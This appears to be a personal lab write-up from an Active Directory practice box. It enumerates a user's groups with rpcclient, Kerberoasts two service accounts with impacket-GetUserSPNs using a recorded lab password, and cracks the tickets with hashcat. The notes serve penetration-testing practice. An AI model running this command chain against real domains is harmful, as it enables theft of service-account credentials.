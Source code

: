 Maybe if this is a service account we can do a userspns thing 

Let's query this user's groups in rpclient 

![[PG/Active Directory/attachments/Pasted image 20250709010133.png]]

```
Rid [0x46e]
```


```
queryusergroups 0x46e
```

![[PG/Active Directory/attachments/Pasted image 20250709010422.png]]

```
querygroup 0x472
```

![[PG/Active Directory/attachments/Pasted image 20250709010512.png]]
- so this user is part of the services group and domain users..

I'll try impacket's GetUserSPNs

```
impacket-GetUserSPNs -request -dc-ip 192.168.194.40 hokkaido-aerospace.com/discovery -save -outputfile GetUserSPNs.out
```

Then enter password if prompted 

```
Start123!
```


Here's the SPN for discover 

```
discover/dc.hokkaido-aerospace.com
```

Here's the SPN for maintenance

```
maintenance/dc.hokkaido-aerospace.com
```

![[PG/Active Directory/attachments/Pasted image 20250709011043.png]]

Got my hashies.

![[PG/Active Directory/attachments/Pasted image 20250709011111.png]]

# Crack these hashies 

```
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt 
```
